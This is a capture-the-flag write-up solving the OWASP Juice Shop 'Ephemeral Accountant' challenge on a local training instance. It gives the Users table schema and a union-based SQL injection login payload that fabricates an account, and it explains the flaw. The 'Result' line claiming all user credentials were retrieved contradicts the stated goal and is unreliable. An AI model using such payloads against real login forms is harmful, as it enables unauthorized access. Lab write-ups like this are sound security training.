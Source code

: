 # Ephemeral Accountant - OWASP JUICE SHOP

## Challenge Description

* **Category**: Injection
* **Difficulty**: ⭐⭐⭐⭐
* **Description**: Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.
* **Link Resource**: `http://localhost:3000/#/score-board?categories=Injection`

## Solution

### Step 1 : Detect the Queries

* Since we finished `User Credentials` challenge before, we already know the queries to make a user

```sql
CREATE TABLE `Users` (`id` INTEGER PRIMARY KEY AUTOINCREMENT, `username` VARCHAR(255) DEFAULT '', `email` VARCHAR(255) UNIQUE, `password` VARCHAR(255), `role` VARCHAR(255) DEFAULT 'customer', `deluxeToken` VARCHAR(255) DEFAULT '', `lastLoginIp` VARCHAR(255) DEFAULT '0.0.0.0', `profileImage` VARCHAR(255) DEFAULT '/assets/public/images/uploads/default.svg', `totpSecret` VARCHAR(255) DEFAULT '', `isActive` TINYINT(1) DEFAULT 1, `createdAt` DATETIME NOT NULL, `updatedAt` DATETIME NOT NULL, `deletedAt` DATETIME)
```

### Step 2 : Use the payload

* With that knowledge in mind, we can use a `UNION` query to login with the non registered account. We will inject it to the query so that the `acc0unt4nt@juice-sh.op` act like a valid account in the database.

```
' UNION SELECT 45 as id, 'acnt' as username, 'acc0unt4nt@juice-sh.op' as email, '1234' as password, 'customer' as role, '' as deluxeToken, '1.1.1.1' as lastLoginIp, 'default.svg' as profileImage, '' as totpSecret, 1 as isActive, '2024-08-30 14:32:12.456' as createdAt, '2025-09-04 14:32:12.456' as updatedAt, null as deletedAt--' AND password = '098f6bcd4621d373cade4e832627b4f6' AND deletedAt IS NULL;
```

![finduser](../../assets/ephemeral%20accountant1.png)

## Result

We are able to retrieve a list of all user credentials

![Result](../../assets/ephemeral%20accountant2.png)

## Explanation

The technique used here is a **Union-based SQL Injection** that fabricates a fake user record on the fly during query execution. This tricks the application into treating the injected row as if it were a legitimate account, allowing login without prior registration. The vulnerability arises from unsanitized input being directly concatenated into the authentication query, combined with the fact that the application accepts the unioned result as valid user data. This demonstrates how SQL Injection can not only exfiltrate information but also simulate non-existent entities for unauthorized access.